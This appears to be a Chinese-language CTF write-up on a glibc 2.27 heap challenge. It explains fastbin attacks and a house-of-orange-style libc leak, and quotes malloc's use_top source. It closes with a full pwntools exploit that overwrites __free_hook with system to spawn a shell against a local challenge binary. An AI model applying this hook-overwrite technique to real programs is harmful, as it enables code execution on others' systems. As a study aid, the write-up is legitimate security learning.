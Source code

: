 # 知识点
- fastbin attack
- "fake" house of orange

# 收获
- gdb 源码级调试glibc
- house of orange 基本原理
## gdb 源码级调试
下载所需版本的glibc源码
```shell
sudo apt-get install libc6-dbg
sudo apt-get install glibc-source
cd /usr/src/glibc
sudo tar xvf glibc-x.xx.tar.xz
```
在gdb中使用:
```shell
dir /usr/src/glibc/glibc-x.xx/malloc
```
即可开始调试。
## house of orange 基本原理及在本题中的应用
house of orange简单来说就是利用溢出或者任意地址写的前置漏洞来修改topchunk的size字段，将其改小，从而可以通过若干次malloc来竭尽topchunk的空间，迫使ptmalloc将不足以满足用户需求的topchunk free到unsorted bin中。
这里之所以要改小topchunk的size而不是直接malloc一个超大的块，是因为如果申请的堆块大小超过了128k，ptmalloc就会调用mmap来申请内存，而不是brk，这样就不能影响到topchunk了。
修改topchunk的size有四个限制：
1.	伪造的 size 必须要对齐到内存页

2.	size 要大于 MIN_CHUNK_SIZE(0x10)

3.	size 要小于之后申请的 chunk size + MIN_CHUNK_SIZE(0x10)

4.	size 的 prev inuse 位必须为 1

这样的手法主要用于
- 不能调用free函数的情况（它能够触发free(topchunk)）；
- 不能通过常规方式泄露libc地址的情况（如本题）。

本题的关键难点在于如何泄露libc地址。由于题目限制，无法通过malloc和free将堆块放到unsorted bin这样的双向链表中。
通过上述的house of orange 似乎可以方便地泄露libc地址，但是实验发现topchunk在枯竭之后，似乎并没有被放到任何一个bin中，就被新的topchunk取代了....目前不知道是什么情况。
![image.png](0) ![image.png](1)
通过阅读源码和调试，了解了glibc-2.27在topchunk大小无法满足用户申请的内存大小后：
```c
use_top:
      /*
         If large enough, split off the chunk bordering the end of memory
         (held in av->top). Note that this is in accord with the best-fit
         search rule.  In effect, av->top is treated as larger (and thus
         less well fitting) than any other available chunk since it can
         be extended to be as large as necessary (up to system
         limitations).

         We require that av->top always exists (i.e., has size >=
         MINSIZE) after initialization, so if it would otherwise be
         exhausted by current request, it is replenished. (The main
         reason for ensuring it exists is that we may need MINSIZE space
         to put in fenceposts in sysmalloc.)
       */

      victim = av->top;
      size = chunksize (victim);

      if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))
        {
          remainder_size = size - nb;
          remainder = chunk_at_offset (victim, nb);
          av->top = remainder;
          set_head (victim, nb | PREV_INUSE |
                    (av != &main_arena ? NON_MAIN_ARENA : 0));
          set_head (remainder, remainder_size | PREV_INUSE);

          check_malloced_chunk (av, victim, nb);
          void *p = chunk2mem (victim);
          alloc_perturb (p, bytes);
          return p;
        }

      /* When we are using atomic ops to free fast chunks we can get
         here for all block sizes.  */
      else if (atomic_load_relaxed (&av->have_fastchunks))
        {
          malloc_consolidate (av);
          /* restore original bin index */
          if (in_smallbin_range (nb))
            idx = smallbin_index (nb);
          else
            idx = largebin_index (nb);
        }

      /*
         Otherwise, relay to handle system-dependent cases
       */
      else
        {
          void *p = sysmalloc (nb, av);
          if (p != NULL)
            alloc_perturb (p, bytes);
          return p;
        }
    }
}

```
1. 先调用`malloc_consolidate`,将fastbin中的所有堆块取出并合并，放在unsorted bin中；
2. 注意在ptmalloc使用一个无限循环来申请堆块，因此在malloc_consolidate改变了fastbin和unsortedbin的布局后，又会重新判断更新后的堆布局中是否存在满足用户申请的内存的块，因此会重走一遍从堆上malloc内存的流程。由于我们申请的内存为0x78， 而unsorted bin中的堆块大小为0xb0，因此ptmalloc会将不符合要求的unsorted bin中的块放到隶属的small bin下面。
3. 之后紧接着会进入一个循环，因此ptmalloc没有调用sysmalloc从系统申请新的topchunk，而是从smallbin里取出那块内存进行分割，剩余部分存放在unsorted bin，并且在last_remainder中也有地址记录。
4. 上一步中存放在unsorted bin中的块在本题中可以被利用来泄露libc地址。
# exp
```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = "debug"
io = process("./pwn")#,env={"LD_PRELOAD":"./libc.so.6"}
def add(idx,size,content):
    io.sendline("1")
    io.recvuntil("index\n")
    io.sendline(str(idx))
    io.recvuntil("size\n")
    io.sendline(str(size))
    io.recvuntil("something\n")
    io.sendline(content)
    io.recvuntil("gift :")
    heap_addr = io.recvline()
    return heap_addr
def remove(idx):
    io.sendline("2")
    io.recvuntil("index")
    io.sendline(str(idx))

heap_addr = int(add(0,0x50,"/bin/sh\x00"),16)
add(1, 0x48, 'aaa\x80bbb')

top_addr = heap_addr + 160

remove(0)
remove(0)
remove(0)
add(2, 0x50, p64(top_addr)*2)
add(3, 0x50, p64(top_addr)*2)
add(4, 0x50, p64(0xf1)*2)

for i in range(8):
    remove(1)
for i in range(8):
    remove(0)

add(5, 0x78, 'aaa\x80bbb')
gdb.attach(io)
add(6, 0x78, 'aaa\x80bbb')
add(7,0x48,'emmm')

libc_base = int(add(8,0x48,p64(top_addr)*2),16)- 4111520
#libc_base = int(add(8,0x48,"123456"),16)- 4111520 #???????? this add modify top chunk addr ??
libc = ELF("./mlibc")
system_addr = libc_base + libc.symbols["system"]
free_hook = libc_base + libc.symbols["__free_hook"]
print("[+]system addr:0x%x"%system_addr)
print("[+]free_hook addr:0x%x"%free_hook)

remove(0)
remove(0)
remove(0)

add(9,0x50,p64(free_hook)*2)
add(10,0x50,p64(free_hook)*2)
add(11,0x50,p64(system_addr))
add(12,0x30,"/bin/sh\x00")
remove(12)
io.interactive()

```

# 待解决
1. 为什么`libc_base = int(add(8,0x48,"12345"),16)- 4111520`会修改topchunk地址？
2. 为什么topchunk枯竭后没有被free到unsorted bin中，旧的topchunk被存到哪了？